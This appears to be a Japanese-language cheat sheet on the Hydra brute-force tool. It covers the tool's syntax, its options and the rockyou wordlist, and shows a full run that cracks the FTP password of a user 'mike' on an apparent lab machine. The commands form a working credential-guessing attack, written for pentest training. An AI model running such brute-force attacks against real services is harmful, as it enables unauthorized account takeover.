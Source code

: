 ## 1.hydraとは
- 能動的パスワードクラックを行うツール
- 総当たりでパスワードを試行する
- SSHやFTPなどのサービスや、Webアプリのログインフォームに対して攻撃が可能
- `wordlist`の使用が可能  
  
## 2.構　文
### 2-1.ユーザ名が既知
```bash
hydra -l <ユーザ名> -P <パスワードリスト> <IPアドレス> <プロトコル>
```
  
### 2-2.ユーザ名、パスワード共にクラック
```bash
hydra -L <ユーザリストファイル> -P <パスワードリスト> http:<ターゲットのパス>
```
## 3.代表的なオプション
- `-l`：`ユーザ名`、あるいは`ID`が既知のとき、直接指定するオプション  
- `-L`：`ユーザリストファイルリスト`を指定するオプション
- `-p`：`パスワード`が既知の時、直接指定するオプション
- `-P`：`パスワードリストファイルリスト`を指定するオプション 
- `-V`：詳細の出力
- `-vV`：更に詳細の出力
- `-f`：ログインに成功したらそのタイミングで総当たりをやめる
- `-t`：ターゲット毎に並列に接続する数を指定（デフォルト：16）
  
## 4.頻出パスワードリスト
- `/usr/share/wordlists/rockyou.txt`  
  
## 5.実行例
- `ユーザ名`が`mike`で`パスワードリスト`に`/usr/share/wordlists/rockyou.txt`を指定  
- パスワードが`password`であると解析  
```bash
┌──(kali㉿kali)-[~]
└─$ hydra -l mike -P /usr/share/wordlists/rockyou.txt -vV 10.10.35.212 ftp     
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-09 21:55:16
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.35.212:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "princess" - 6 of 14344399 [child 5] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "1234567" - 7 of 14344399 [child 6] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "rockyou" - 8 of 14344399 [child 7] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "12345678" - 9 of 14344399 [child 8] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "abc123" - 10 of 14344399 [child 9] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "nicole" - 11 of 14344399 [child 10] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "daniel" - 12 of 14344399 [child 11] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "babygirl" - 13 of 14344399 [child 12] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "monkey" - 14 of 14344399 [child 13] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "lovely" - 15 of 14344399 [child 14] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "jessica" - 16 of 14344399 [child 15] (0/0)
[21][ftp] host: 10.10.35.212   login: mike   password: password
[STATUS] attack finished for 10.10.35.212 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-09 21:55:28
```
  
## 6.参　考
[kali linuxでhydraを使ってパスワードクラックをしてみた - Qiita](https://qiita.com/miya_zato/items/0c32dc71208460515e34)  
[ハッカーはhydraでログインクラックを確認する(Kali Linux) - AIを武器にホワイトハッカーになる](https://whitemarkn.com/learning-ethical-hacker/hydra/)  
  
